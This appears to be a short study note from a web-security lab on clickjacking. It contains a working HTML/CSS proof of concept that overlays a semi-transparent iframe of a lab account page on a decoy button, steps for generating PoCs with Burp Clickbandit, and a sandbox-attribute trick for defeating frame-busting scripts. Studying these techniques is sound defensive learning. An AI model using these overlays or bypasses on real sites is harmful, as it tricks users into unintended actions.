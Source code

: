```yaml
---
layout: blank
pagetitle: Clickjacking
---
```


**Clickjacking PoC**

```
<style>
    iframe {
        position:relative;
        width:99vw;
        height: 99vh;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:400px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a96005403001104812e3ea900bf0098.web-security-academy.net/my-account"></iframe>
```

**Clickbandit**
- Used to automatically generate PoCs
- Steps:
  - Burp Menu -> Clickbandit
  - Paste the scripts in the JS console
  - Click start, perform actions, click finish to record
  - Save

**Scripts Blocking Iframes**
- Sometimes websites have scripts checking to make sure iframes are visible and the main page is the top menu
- Can usually be circumvented using iframe `sandbox` attribute
  - `<iframe id="victim_website" src="https://{vulnerable_site}.com" sandbox="allow-forms"></iframe>`
  - Clickbandit supports this